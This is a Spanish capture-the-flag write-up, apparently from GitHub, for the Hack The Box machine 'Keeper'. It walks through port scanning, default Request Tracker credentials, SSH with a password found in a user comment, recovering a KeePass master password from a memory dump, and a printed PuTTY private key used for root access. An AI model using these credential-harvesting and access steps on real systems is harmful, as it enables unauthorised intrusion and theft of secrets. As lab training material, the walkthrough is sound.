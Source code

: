 # Reconocimiento
---

Para iniciar la evaluación de la máquina **Keeper** en Hack The Box, se comenzó con un escaneo de puertos utilizando Nmap para identificar los servicios disponibles en la máquina objetivo.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.227 -oG ports
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:18 -03
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.227 [65535 ports]
Discovered open port 22/tcp on 10.10.11.227
Discovered open port 80/tcp on 10.10.11.227
Completed SYN Stealth Scan at 00:19, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-16 00:18:55 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
           Raw packets sent: 73909 (3.252MB) | Rcvd: 73532 (2.941MB)
```

El escaneo reveló la existencia de los puertos 22 (SSH) y 80 (HTTP) abiertos en la máquina.

```bash
nmap -p 22,80 -n -Pn -sCV 10.10.11.227 -oN openPorts
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:21 -03
Nmap scan report for 10.10.11.227
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

El análisis detallado de los servicios en estos puertos indicó que la máquina estaba ejecutando OpenSSH 8.9p1 en el puerto 22 y un servidor web nginx 1.18.0 en el puerto 80.

Además, se modificó el archivo `/etc/hosts` para asociar la dirección IP de la máquina objetivo con el nombre de dominio `tickets.keeper.htb`.

Se procedió a acceder al sitio web en [http://10.10.11.227](http://10.10.11.227/).

```bash
nvim /etc/hosts
<ip-victima>  tickets.keeper.htb
```

[http://tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)

# Descubrimiento de la vulnerabilidad
---

Al explorar **Request Tracker**, se descubrieron credenciales predeterminadas para el usuario root:

[Request Tracker Default credentials](https://docs.bestpractical.com/rt/4.4.4/README.html)

```bash
NOTE: The default credentials for RT are:
		User: root
		Pass: password
```

Ingresando al panel de administración en [http://tickets.keeper.htb/rt/Admin/Users/](http://tickets.keeper.htb/rt/Admin/Users/), se encontraron dos usuarios: `lnorgaard` y `root`.

| #   | Name      | Real Name     | Email Address        | Status  |
| --- | --------- | ------------- | -------------------- | ------- |
| 27  | lnorgaard | Lise Nørgaard | lnorgaard@keeper.htb | Enabled |
| 14  | root      | Enoch Root    | root@localhost       | Enabled |

En el panel de edición del usuario `lnorgaard` [http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27](http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27) se encuentra un comentario indicando que la contraseña inicial es `Welcome2023!`.

```
New user. Initial password set to Welcome2023!
```

Se procede a entablar una conexión por SSH con el servidor como el usuario `lnorgaard`.

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@<ip-victima>
```

## User Flag
---

Se accedió exitosamente al sistema como `lnorgaard` utilizando la contraseña encontrada. La flag del usuario se obtuvo ejecutando el siguiente comando:

> [!IMPORTANT]
> User flag `cat /home/lnorgaard/user.txt`

# Escalada de privilegios
---

Se procedió a realizar una escalada de privilegios para obtener acceso a la cuenta root. Se estableció un servidor con **python3** para poder descargar el archivo `RT30000.zip` a la máquina atacante.

```bash
python3 -m http.server <puerto>
KeePassDumpFull.dmp  RT30000.zip  k.ppk  passcodes.kdbx
```

Se descargó el archivo `RT30000.zip` en la máquina atacante y se descomprimió con los siguientes comandos:

```bash
wget http://<ip-victima>/<puerto>/RT30000.zip
unzip RT30000.zip
```

Utilizando la herramienta [KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file), se extrajo una posible contraseña.

[Setup KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file#setup)

Para configurar el KeePass se necesitó instalar lo siguiente:
[Download .NET For Windows](https://dotnet.microsoft.com/en-us/download)
[Descargar .NET 7.0 Runtime](https://dotnet.microsoft.com/es-es/download/dotnet/7.0/runtime?cid=getdotnetcore&os=windows&arch=x64)

Se ejecutó el programa `dotnet` para extraer la posible contraseña
`dotnet run KeePassDumpFull.dmp`

```bash
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Tras una búsqueda en Google de la posible contraseña encontrada se determinó que la contraseña está escrita en idioma danés.
[Resultados de la búsqueda en Google de M}dgrød med fløde](https://www.google.com/search?q=M%7Ddgr%C3%B8d+med+fl%C3%B8de&rlz=1C1CHBF_esAR1082AR1082&oq=M%7Ddgr%C3%B8d+med+fl%C3%B8de&gs_lcrp=EgZjaHJvbWUqBggAEEUYOzIGCAAQRRg7Mg4IARAAGAoYQxiABBiKBdIBBzc4MWowajeoAgCwAgA&sourceid=chrome&ie=UTF-8)
`rødgrød med fløde`

Se descargó [KeePassXC](https://keepassxc.org/) y se utilizó para abrir el archivo `passcodes.kdbx` con la contraseña obtenida.
[https://keepassxc.org/download/#linux](https://keepassxc.org/download/#linux)

```bash
keepassxc passcodes.kdbx
rødgrød med fløde
```

En el apartado **Network** se encuentra un usuario **root** y se visualiza una clave privada la que copiamos y guardamos en un archivo con extensión **.ppk**

key.ppk
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
```

Para acceder al sistema como el usuario root y haciendo uso de la clave encontrada en el gestor de contraseñas se necesita convertir la clave privada.

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
Seguir las instrucciones del README.md para instalar la última versión de `putty`

```bash
cmake .
cmake --build .
cmake --build . --target install
```

Al instalar la versión 0.79 (al día de escrito este write-up) la última versión, se puede convertir el archivo key.ppk a un archivo **PEM RSA private key**. Puede que versiones anteriores a esta arrojen un error en la conversión.

```bash
puttygen key.ppk -O private-openssh -o root.pem
```

Accedemos al sistema mediante SSH haciendo uso de la clave privada recientemente convertida.

```bash
ssh -i root.pem root@10.10.11.227
```

## Root Flag
---

Con privilegios de root, se localizó la root flag en el directorio `/root`

> [!IMPORTANT]
> Root flag `cat /root/root.txt`

